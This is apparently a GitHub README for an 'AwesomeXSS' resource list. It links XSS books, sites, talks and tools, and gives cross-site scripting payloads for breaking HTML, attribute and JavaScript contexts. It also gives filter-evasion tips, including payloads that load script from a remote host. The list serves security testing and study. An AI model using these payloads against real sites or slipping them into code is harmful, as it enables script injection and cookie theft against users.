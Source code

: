 # AwesomeXSS
Awesome XSS stuff.
Put this repo on watch. I will be updating it regularly.

### Awesome Books
- [XSS Cheat Sheet By Brute Logic](http://google.com)

### Awesome Websites
- [brutelogic.com.br](http://brutelogic.com.br)
- [respectxss.blogspot.in](https://respectxss.blogspot.in/)

### Awesome People
- [Rodolfo Assis](https://twitter.com/brutelogic)
- [Ashar Javed](https://twitter.com/soaj1664ashar)
- [Somdev Sangwan](https://twitter.com/s0md3v) I own this repo, I can write whatever the fuck I want :v

### Awesome Reads
- [XSS in Sarahah](http://www.shawarkhan.com/2017/08/sarahah-xss-exploitation-tool.html)

### Awesome Presentations
- [How I met your girlfriend](https://www.youtube.com/watch?v=fWk_rMQiDGc)
- [How to Find 1,352 Wordpress XSS Plugin Vulnerabilities in one hour](https://www.youtube.com/watch?v=9ADubsByGos)
- [Blind XSS](https://www.youtube.com/watch?v=OT0fJEtz7aE)
- [Copy Pest](https://www.slideshare.net/x00mario/copypest)

### Awesome Context Breaking

#### Simple Context
```
<svg onload=alert()>
</tag><svg onload=alert()>
```

#### Attribute Context
```
"><svg onload=alert()>
"><svg onload=alert()><b attr="
" onmouseover=alert() "
"onmouseover=alert()//
```
#### JavaScript Context
```
'-alert()-'
'-alert()//'
'}alert(1);{'
'}%0Aalert(1);%0A{'
</script><svg onload=alert()>
```

### Awesome Payloads
Come back later

### Awesome Exploits
Come back later

### Awesome Tags & Event Handlers
Come back later

### Awesome Methodology
Come back later

### Awesome Tools
- [XSStrike](http://xsstrike.tk/)
- [KNOXSS](http://knoxss.me/)

### Awesome Tips & Tricks
- http:// can be shortened to //
- **document.cookie** can be shortened to **cookie**. It applies to other DOM objects as well.
- alert and other pop-up functions don't need a value, so stop doing **alert(1)** and start doing **alert()**
- I have found that **confirm** is the least detected pop-up function so stop using **alert**.
- Quotes around attribute value aren't neccessary. You can use **&lt;script src=//14.rs&gt;** instead of **&lt;script src="//14.rs"&glt;**
- The shortest independent payload is **&lt;embed src=//14.rs&gt;** (19 chars)

## Credits and all that
All the payloads are crafted by me unless specified.
Thanks to my big brother [Rodolfo Assis](https://twitter.com/brutelogic) whose writings inspired me to become an XSSLord.
